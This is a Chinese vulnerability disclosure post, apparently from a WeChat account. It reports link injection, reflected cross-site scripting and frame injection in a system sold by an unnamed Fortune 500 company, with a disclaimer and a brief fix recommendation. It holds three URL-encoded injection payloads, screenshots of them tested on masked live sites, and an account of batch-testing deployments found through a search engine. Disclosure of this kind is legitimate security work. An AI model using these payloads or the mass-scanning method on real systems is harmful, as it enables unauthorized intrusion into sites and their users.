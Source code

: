 #  某世界500强企业|存在通杀漏洞(0day)   
原创 漏洞谷  漏洞谷   2024-04-24 13:51  
  
```
免责声明：
1.禁止未授权的渗透测试
2.该文章仅供学习参考，切勿拿去尝试
3.此文所提供的信息而造成的任何后果及损失，均由使用者本人负责
4.一切后果与文章作者无关
5.文章所涉及的全部漏洞，均是被修复完漏洞后才公开
```  
  
**一.备案信息查询(因敏感问题，所以全部打码处理)**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PnNLap9B4bWC5iaDaDcOMn2dvHO1HicOlUq7QKvg6Ro9QxJvx0Zq6w2Dfib88sGr1KPL8OS2HadgT8Dibeb5o7V9Mw/640?wx_fmt=png&from=appmsg "")  
  
**二.漏洞名称：**  
```
某某某有限公司统一某某系统存在框架注入漏洞
```  
  
**三.漏洞描述**  
```
一个框架注入攻击是一个所有基于GUI的浏览器攻击，
它包括任何代码如JavaScript、VBScript(ActivX)、Flash、AJAX(html+js+py)。
代码被注入是由于脚本没有对它们正确验证，攻击者有可能注入含有恶意内容的frame或iframe标记。
“链接注入”是修改站点内容的行为，其方式为将外部站点的URL嵌入其中，或将有易受攻击的站点中的脚本的URL嵌入其中。
将URL嵌入易受攻击的站点中，攻击者便能够以它为平台来启动对其他站点的攻击，以及攻击这个易受攻击的站点本身。
主要危害：
1.恶意篡改网页内容。
2.网页挂马。
3.网站钓鱼攻击。
```  
  
**四.poc**  
```
链接注入漏洞（POC1:）
/hhhelop/liisstt.do?ddooommmaaainm=*/--%3E%27%22);%3E%3C/iframe%3E%3C/script%3E%3C/style%3E%3C/title%3E%3C/textarea%3E%3Ca%20href=%27http://127.0.0.1/1.html%27%3EPlease%20click%20here%20for%20a%20surprise%3C/a%3E
```  
```
跨站脚本漏洞 (POC2:)
/hhhelop/liisstt.do?ddooommmaaainm=%3C%2Fscript%3E%3Cscript%3Ealert%6077508%60%3C%2Fscript%3E
```  
```
框架注入漏洞 (POC3:)
/hhhelop/liisstt.do?ddooommmaaainm=%23%2A%2F%2D%2D%3E%27%22%29%3B%3E%3C%2Fiframe%3E%3C%2Fscript%3E%3C%2Fstyle%3E%3C%2Ftitle%3E%3C%2Ftextarea%3E%3Ciframe%09src%3Dhttps%3A%2F%2Fwww.baidu.com%3E
```  
  
**五.案例一**  
```
https://x.x.x..com/x/x/obueorlgggggin.do
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PnNLap9B4bWC5iaDaDcOMn2dvHO1HicOlUOAYBmKL7BjHLT2e9szwLPRK2yhK6Y24oKxJbIR2NGuFyRicyXYX3Veg/640?wx_fmt=png&from=appmsg "")  
  
使用poc2进行尝试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PnNLap9B4bWC5iaDaDcOMn2dvHO1HicOlUM6fS7LIIMPjvpWVCrcw5plghwYib5Y5lzNhIGpqJ5Wia8icp9piax277icw/640?wx_fmt=png&from=appmsg "")  
  
使用poc1进行尝试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PnNLap9B4bWC5iaDaDcOMn2dvHO1HicOlUEvwicrfXb5NRI2cYsDdVicv0xzvhZj5GUWTbwVMbWPgSnKYKS2k1EuOg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PnNLap9B4bWC5iaDaDcOMn2dvHO1HicOlU9WSf3clKiafSGwQgCCOS9to3v3TTfJ3FYOibRp8EVML7e15u2MhRLDVA/640?wx_fmt=png&from=appmsg "")  
  
使用poc3进行尝试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PnNLap9B4bWC5iaDaDcOMn2dvHO1HicOlUdyBTaZA1aF3IjEI72yWzRZDbIlrrGeeU7Wj4dps55EFc6LBEjTWEdA/640?wx_fmt=png&from=appmsg "")  
  
最后就是通过空间搜索引擎进行批量对其相关资产进行打包，然后进行批量测试，然后就发现这个系统都存在框架注入漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PnNLap9B4bWC5iaDaDcOMn2dvHO1HicOlUs4cz0MmoQuIUmiaL4NHVsVEkwgaO94aHIK9tNZth3iatrXqgI0lDHR3Q/640?wx_fmt=png&from=appmsg "")  
  
**六.修复建议**  
```
过滤特殊字符，用户的一切输入都是有害的
```  
  
